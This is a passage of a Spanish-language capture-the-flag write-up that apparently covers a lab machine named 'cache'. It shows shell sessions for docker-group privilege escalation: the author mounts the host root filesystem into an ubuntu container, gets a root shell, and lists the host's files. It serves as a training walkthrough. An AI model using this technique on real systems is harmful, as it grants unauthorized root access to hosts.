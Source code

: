 ```bash
luffy@cache:/$ docker ps -a
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
9c85c1a826d6        ubuntu              "/bin/bash"         4 minutes ago       Up 4 minutes                            privesc
luffy@cache:/$
luffy@cache:/$ docker stop privesc
privesc
luffy@cache:/$ docker ps -a
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
luffy@cache:/$
```

```bash
luffy@cache:/$ docker run --rm -v /:/mnt/root -dit --name privesc ubuntu
6ab913d0e201d03cb938fb723f06414f1463196ac686112681978899fdccf2cf
luffy@cache:/$ docker exec -it privesc /bin/bash
root@6ab913d0e201:/#
```

Ahora si checamos el recurso `/mnt/root/` dentro del contenedor, tenemos montado la raiz del sistema principal.

```bash
root@6ab913d0e201:/# ls -l /mnt/root/
total 1645660
drwxr-xr-x   2 root root       4096 Jul  9  2020 bin
drwxr-xr-x   3 root root       4096 Sep 16  2020 boot
drwxr-xr-x  18 root root       3900 Mar 12 23:04 dev
drwxr-xr-x  99 root root       4096 Jul  9  2020 etc
drwxr-xr-x   4 root root       4096 Sep 17  2019 home
lrwxrwxrwx   1 root root         34 Jul  9  2020 initrd.img -> boot/initrd.img-4.15.0-109-generic
lrwxrwxrwx   1 root root         33 Jul  9  2020 initrd.img.old -> boot/initrd.img-4.15.0-99-generic
drwxr-xr-x  22 root root       4096 Sep 18  2019 lib
drwxr-xr-x   2 root root       4096 Jul  9  2020 lib64
drwx------   2 root root      16384 Sep 17  2019 lost+found
drwxr-xr-x   2 root root       4096 Feb 14  2019 media
drwxr-xr-x   2 root root       4096 Feb 14  2019 mnt
drwxr-xr-x   3 root root       4096 Sep 18  2019 opt
dr-xr-xr-x 193 root root          0 Mar 12 23:04 proc
drwx------   6 root root       4096 Sep 16  2020 root
drwxr-xr-x  31 root root       1020 Mar 12 23:05 run
drwxr-xr-x   2 root root      12288 Jul  9  2020 sbin
drwxr-xr-x   4 root root       4096 Sep 17  2019 snap
drwxr-xr-x   2 root root       4096 Feb 14  2019 srv
-rw-------   1 root root 1685061632 Sep 17  2019 swap.img
dr-xr-xr-x  13 root root          0 Mar 12 23:04 sys
drwxrwxrwt  12 root root       4096 Mar 13 03:29 tmp
drwxr-xr-x  10 root root       4096 Feb 14  2019 usr
drwxr-xr-x  14 root root       4096 Sep 17  2019 var
lrwxrwxrwx   1 root root         31 Jul  9  2020 vmlinuz -> boot/vmlinuz-4.15.0-109-generic
lrwxrwxrwx   1 root root         30 Jul  9  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-99-generic
root@6ab913d0e201:/#
```
